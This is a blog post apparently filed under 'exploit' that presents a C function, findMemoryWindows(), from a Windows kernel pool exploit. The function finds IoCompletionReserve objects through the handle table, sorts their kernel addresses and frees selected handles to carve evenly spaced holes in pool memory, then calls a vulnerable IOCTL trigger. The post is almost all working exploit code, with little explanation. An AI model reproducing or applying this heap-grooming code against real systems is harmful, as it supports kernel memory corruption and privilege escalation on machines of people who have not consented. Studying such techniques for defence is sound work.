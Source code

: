 ```yaml
---
layout: post
title: "findMemoryWindows()"
category: exploit
tagline: "Supporting tagline"
tags: [exploit]
---
```

{% include JB/setup %}

## findMemoryWindows()

### struct _PUBLIC_OBJECT_TYPE_INFORMATION
{% highlight C %}
typedef struct _PUBLIC_OBJECT_TYPE_INFORMATION{
	UNICODE_STRING	TypeName;
	ULONG			Reserved[0x2048];
} PUBLIC_OBJECT_TYPE_INFORMATION, *PPUBLIC_OBJECT_TYPE_INFORMATION;
{% endhighlight %}

### findMemoryWindows()
{% highlight C %}
VOID findMemoryWindows(){

	PSYSTEM_HANDLE_INFORMATION_EX handleInfo;
	getHandles(&handleInfo);

	size_t numRetrievedHandles = handleInfo->NumberOfHandles;
	PSYSTEM_HANDLE_TABLE_ENTRY_INFO_EX handleEntry = handleInfo->Handles;

	HMODULE h = LoadLibraryA("ntdll.dll");
	if(!h){
		printf("[-]Failed to load module\n");
		exit(1);
	}
	NtQueryObject pNtQueryObject = (NtQueryObject)GetProcAddress(h, "NtQueryObject");

	DWORD obj_addr[50000][2];
	int j = 0;

	for (size_t i = 0; i < numRetrievedHandles; i++){
		if(handleEntry->UniqueProcessId == (HANDLE) GetCurrentProcessId()){
			PUBLIC_OBJECT_TYPE_INFORMATION public_object_type_information;
			DWORD size = sizeof(public_object_type_information);
			NTSTATUS st = pNtQueryObject(handleEntry->HandleValue, ObjectTypeInformation, &public_object_type_information, size, NULL);
			if(!NT_SUCCESS(st)){
				printf("NtQueryObject() Failed!\n");
				__asm int 3

			}
			wchar_t IoCoObj[20] = L"IoCompletionReserve";
			if(!wcscmp(IoCoObj, public_object_type_information.TypeName.Buffer)){
				// printf("IoCo: %ls\n", public_object_type_information.TypeName.Buffer);
				// printf("handleEntry->Object: 0x%08x\n", (DWORD) handleEntry->Object);

				// printf("handleEntry->HandleValue: %d\n", handleEntry->HandleValue);
				obj_addr[j][0] = (DWORD) handleEntry->Object;
				obj_addr[j][1] = (DWORD) handleEntry->HandleValue;
				j++;
			}
		}
		handleEntry++;
	}
	qsort(obj_addr, 50000, 2*sizeof(DWORD), comp);

	
	DWORD alloc;
	DWORD obj;
	int hole_count = 0;
	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 2][0] == obj + 0x100 &&
				obj_addr[i + 3][0] == obj + 0x160 &&
				obj_addr[i + 4][0] == obj + 0x1c0 &&
				obj_addr[i + 5][0] == obj + 0x220 &&
				obj_addr[i + 6][0] == obj + 0x280 &&
				obj_addr[i + 7][0] == obj + 0x2e0 &&
				obj_addr[i + 8][0] == obj + 0x340 &&
				obj_addr[i + 9][0] == obj + 0x3a0 &&
				obj_addr[i + 10][0] == obj + 0x400 &&
				obj_addr[i + 11][0] == obj + 0x460 &&
				obj_addr[i + 12][0] == obj + 0x4c0 &&
				obj_addr[i + 13][0] == obj + 0x520 &&
				obj_addr[i + 14][0] == obj + 0x580){

				/*
				printf("[Adjecient Memory Chunk %d]\n", hole_count);
				printf("obj_addr[i][0] = 0x%08x\n", obj_addr[i][0]);
				printf("obj_addr[i + 2][0] = 0x%08x\n", obj_addr[i + 2][0]);
				printf("obj_addr[i + 3][0] = 0x%08x\n", obj_addr[i + 3][0]);
				printf("obj_addr[i + 4][0] = 0x%08x\n", obj_addr[i + 4][0]);
				printf("obj_addr[i + 5][0] = 0x%08x\n", obj_addr[i + 5][0]);
				printf("obj_addr[i + 6][0] = 0x%08x\n", obj_addr[i + 6][0]);
				printf("obj_addr[i + 7][0] = 0x%08x\n", obj_addr[i + 7][0]);
				printf("obj_addr[i + 8][0] = 0x%08x\n", obj_addr[i + 8][0]);
				printf("obj_addr[i + 9][0] = 0x%08x\n", obj_addr[i + 9][0]);
				printf("obj_addr[i + 10][0] = 0x%08x\n", obj_addr[i + 10][0]);
				printf("obj_addr[i + 11][0] = 0x%08x\n", obj_addr[i + 11][0]);
				printf("obj_addr[i + 12][0] = 0x%08x\n", obj_addr[i + 12][0]);
				printf("obj_addr[i + 13][0] = 0x%08x\n", obj_addr[i + 13][0]);
				printf("obj_addr[i + 14][0] = 0x%08x\n\n\n", obj_addr[i + 14][0]);
				*/

				// Create Memory Windows of 0x480 bytes (0x60*12)
				CloseHandle((HANDLE) obj_addr[i + 2][1]);
				CloseHandle((HANDLE) obj_addr[i + 3][1]);
				CloseHandle((HANDLE) obj_addr[i + 4][1]);
				CloseHandle((HANDLE) obj_addr[i + 5][1]);
				CloseHandle((HANDLE) obj_addr[i + 6][1]);
				CloseHandle((HANDLE) obj_addr[i + 7][1]);
				CloseHandle((HANDLE) obj_addr[i + 8][1]);
				CloseHandle((HANDLE) obj_addr[i + 9][1]);
				CloseHandle((HANDLE) obj_addr[i + 10][1]);
				CloseHandle((HANDLE) obj_addr[i + 11][1]);
				CloseHandle((HANDLE) obj_addr[i + 12][1]);
				CloseHandle((HANDLE) obj_addr[i + 13][1]);

				hole_count++;
			}
		}
	}

	triggerIOCTL();

	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 14][0] == obj + 0x580)
				CloseHandle((HANDLE) obj_addr[i + 14][1]);
		}
	}
	printf("Total Windows = %d\n", hole_count);

}
{% endhighlight %}